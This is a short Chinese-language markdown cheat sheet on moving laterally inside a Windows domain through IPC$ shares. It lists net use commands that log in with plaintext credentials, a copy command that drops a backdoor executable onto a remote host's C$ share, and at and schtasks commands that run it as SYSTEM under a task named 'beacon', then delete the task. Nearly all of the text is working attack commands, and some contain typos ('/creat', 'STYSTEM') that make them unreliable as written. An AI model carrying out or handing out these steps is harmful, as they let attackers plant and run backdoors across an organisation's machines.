

# IPC域内移动测试
需启用文件和打印机共享和防火墙允许,<mark>明文密码</mark>
利用命令:
```
net use \\x.x.x.x\ipc$ "password" /user:username #工作组

net use \\x.x.x.x\ipc$ "password" /user:domain\username #域内

```

建立管道后,上传后门到另一台机器
```
copy 4444.exe \\x.x.x.x\c$ #复制4444.exe到另一台主机下的c盘中
```

启动后门
配合计划任务
```
1.at (<win2012)
at \\x.x.x.x  15:47 c:\4444.exe

2.schtasks(>=win2012)

schtasks /creat /sc once /sd 2026/01/01 /st 11:00 /tn mytaskname /tr "C:\4444.exe" /ru STYSTEM #创建 mytaskname任务定时执行

或

schtasks /creat /s x.x.x.x /ru "SYSTEM" /tn beacon /sc DAILY /tr c:\4444.exe /F #创建beacon任务
schtasks /run /s x.x.x.x /tn beacon /i #运行beacon任务
schtasks /delete /s x.x.x.x /tn beacon /f #删除beacon任务


```
